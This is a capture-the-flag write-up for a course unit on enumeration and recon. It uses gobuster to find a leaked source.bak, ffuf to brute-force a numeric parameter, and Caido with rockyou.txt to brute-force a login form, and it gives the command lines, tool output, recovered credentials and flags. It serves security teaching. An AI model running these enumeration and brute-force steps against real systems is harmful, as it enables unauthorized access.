



# Course 06 - Enumeration & Recon

---

# Not so random
Used gobuster to view what the website hides
```bash
gobuster dir -u http://141.85.224.102:8000/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -t 100 -x txt,php,html,bak,zip,log
===============================================================
Gobuster v3.8.2
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://141.85.224.102:8000/
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8.2
[+] Extensions:              txt,php,html,bak,zip,log
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
source.bak           (Status: 200) [Size: 109]
```

Source.bak revealed the appliaction's logic
```php
if (isset($_GET['random_numberrr']) && intval($_GET['random_numberrr']) === $random_number) {
	echo $flag;
}
```

Now we have to find out what that random number is
```bash
ffuf \
  -u "http://141.85.224.102:8000/?random_numberrr=FUZZ" \
  -w <(seq 0 100000) \
  -t 100 \
  -fs 19
```

```bash

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://141.85.224.102:8000/?random_numberrr=FUZZ
 :: Wordlist         : FUZZ: /proc/self/fd/11
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 100
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 19
________________________________________________

49999                   [Status: 200, Size: 40, Words: 1, Lines: 1, Duration: 65ms]
:: Progress: [100001/100001] :: Job [1/1] :: 1689 req/sec :: Duration: [0:01:03] :: Errors: 0 ::
```

The number is 49999

```txt
SSS{random_can_sometimes_be_predictable}
```

---

# Lamer login
We have a login form, gobuster didn't find anything else. Since SQLi does not work we will have to brute force it


This time I decided to use Caido (similar to Burp Suite, but the automation does not have the same limits intruder has)

For the password list I have used rockyou.txt and for names tired multiple from seclists, the one that worked was seclists/Usernames/Names/names.txt

Firt I tried looking for the name, sorting the responses by their lenght we find that it's abel (since the server responded with " Wrong password! " instead of " Invalid credentials! ")





It was abel, now we move to the password



After sorting the results by lenght we discover the username and password combination is
```bash
abel:whatever
```

```txt
SSS{always_choose_a_strong_password}
```

